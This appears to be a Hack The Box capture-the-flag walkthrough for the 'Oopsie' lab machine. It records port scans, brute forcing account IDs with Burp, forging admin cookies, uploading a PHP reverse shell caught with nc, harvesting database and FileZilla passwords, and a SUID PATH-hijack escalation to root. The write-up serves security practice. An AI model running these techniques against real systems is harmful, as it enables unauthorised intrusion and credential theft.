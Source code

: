 ```yaml
---
title: HTB - Oopsie Walkthrough
date: 2021-08-09 14:52:15
tags: [WalkThrough, HTB, Penetration Testing, Starting Point]
---
```


# Enumeration
## brief scan for open port
```
nmap -p- --min-rate=1000 -T4 10.10.10.28 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$// >> ports.txt
```
## detailed scan
```
nmap -sC -sV -p`cat ports.txt` 10.10.10.28
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-09 03:00 EDT
Nmap scan report for 10.10.10.28
Host is up (0.35s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.48 seconds
```

port 80 is open, take a look use browser

try dirb：
```
dirb 10.10.10.28 -r -z 10
-r to scan non-recursively, and -z 10 to add a 10 millisecond delay to each request  

---- Scanning URL: http://10.10.10.28/ ----
==> DIRECTORY: http://10.10.10.28/css/                                                        
==> DIRECTORY: http://10.10.10.28/fonts/                                                      
==> DIRECTORY: http://10.10.10.28/images/                                                     
+ http://10.10.10.28/index.php (CODE:200|SIZE:10932)                                          
==> DIRECTORY: http://10.10.10.28/js/                                                         
+ http://10.10.10.28/server-status (CODE:403|SIZE:276)                                        
==> DIRECTORY: http://10.10.10.28/themes/                                                     
==> DIRECTORY: http://10.10.10.28/uploads/                                                    
                                                                                              
-----------------
END_TIME: Mon Aug  9 04:10:08 2021
DOWNLOADED: 4612 - FOUND: 2

```

try nikto:
```
nikto -h 10.10.10.28
```

By inspect the page source, we found `<script src="/cdn-cgi/login/script.js"></script>`

inspect `cdn-cgi/login` page

![image](/images/oopsie_login_page.png "screenshot of login page")

try sql injection:
...

WTF, we can use the obtained from first box?? are they related? use common username `admin`

find upload tab： it says `This action require super admin rights.`

`http://10.10.10.28/cdn-cgi/login/admin.php?content=accounts&id=1` can reveal account infos use burpsuite to brute force

add to intruder `Ctrl+i`, go to `position` tab, clear all the selection, then select `1` in the url, `add` 

create payload use command
```
for x in $(seq 1 100);do echo $x;done > ids.txt
```

load the payload

If necessary, setup redirection option in `option` tab: `always`, check `process cookie in redirections`

sort by response length, we found id = 30:
```
86575	super admin	superadmin@megacorp.com
```

we found there are two cookies:
```
Cookie: user=34322; role=admin
```
try to change it to
```
user=86575; role=superadmin
```

then we can access upload page:

upload the php-reverse shell, as we discovered use dirb above, there's a path `uploads/` lets try `/uploads/php-shell1.php` 

first open a listening port on `4444`
```
nc -nvlp 4444

listening on [any] 4444 ...
connect to [10.10.14.75] from (UNKNOWN) [10.10.10.28] 57424
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:25:22 up  3:11,  1 user,  load average: 0.01, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
robert   pts/1    10.10.15.98      05:55    1:26m  0.06s  0.06s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

get the shell for user `www-data`

in `/var/www/html/cdn-cgi/login`, found `db.php`

```
$ cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```
https://www.php.net/manual/en/mysqli.construct.php


ssh to `robert`

```
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

check if bugtracker group has any special access

```
find / -type f -group bugtracker 2>/dev/null
/usr/bin/bugtracker


f      regular file
redirct stderr to null, otherwise there's a lot of permission deny error
```


```
robert@oopsie:~$ /usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 123
---------------

cat: /root/reports/123: No such file or directory
```

it seems bugtracker can cat file under /root/reports/, lets try /root/report/../root.txt

get the flag

the official guide give another option, the bugtracker will execute cat with root permission
```
robert@oopsie:~$ ls -l /usr/bin/bugtracker 
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
```

we could forge a cat binary with shell program
```
export PATH=/tmp:$PATH
cd /tmp/
echo '/bin/sh' > cat
chmod +x cat
```


then run `/usr/bin/bugtracker`, we gain the root shell




```
# cat filezilla.xml
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<FileZilla3>
    <RecentServers>
        <Server>
            <Host>10.10.10.46</Host>
            <Port>21</Port>
            <Protocol>0</Protocol>
            <Type>0</Type>
            <User>ftpuser</User>
            <Pass>mc@F1l3ZilL4</Pass>
            <Logontype>1</Logontype>
            <TimezoneOffset>0</TimezoneOffset>
            <PasvMode>MODE_DEFAULT</PasvMode>
            <MaximumMultipleConnections>0</MaximumMultipleConnections>
            <EncodingType>Auto</EncodingType>
            <BypassProxy>0</BypassProxy>
        </Server>
    </RecentServers>
</FileZilla3>
# pwd
/root/.config/filezilla
```